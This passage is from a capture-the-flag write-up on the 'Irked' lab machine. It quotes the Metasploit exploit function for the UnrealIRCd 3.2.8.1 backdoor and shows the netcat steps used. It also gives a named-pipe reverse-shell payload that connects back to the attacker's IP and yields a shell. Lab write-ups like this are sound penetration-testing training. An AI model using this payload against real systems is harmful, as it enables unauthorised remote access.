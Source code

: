 ## Weaponization

If we search in google "*Unreal IRCD 3.2.8.1 exploit*" we find the following [Metasploit exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb)

It has the following function:

```ruby
def exploit
	connect

	print_status("Connected to #{rhost}:#{rport}...")
	banner = sock.get_once(-1, 30)
	banner.to_s.split("\n").each do |line|
			print_line("    #{line}")
	end

	print_status("Sending backdoor command...")
	sock.put("AB;" + payload.encoded + "\n")

	handler
	disconnect
end
```

It seems that the exploit first connects to the target, sends `AB;` + perl shell + `\n` 

## Exploitation

Basically, I can connect with netcat to the machine, execute the previous payload and get a reverse shell.

```shell
# On my machine (first set up listener)
nc -lvp 666
# Then connect to the machine with nc in other window (port 6697)
nc irked.htb 6697
# In other window capture ICMP traffic connection
sudo tcpdump -ni tun0 icmp
# Send the payload over nc
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 666 >/tmp/f;
```

![](Pasted%20image%2020241125230844.png)

> We've got a reverse shell :D

## Lateral Movement

Inspecting the `/home` directory I found the following:

```shell
ls -la /home/djmardov/Documents/
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt
```
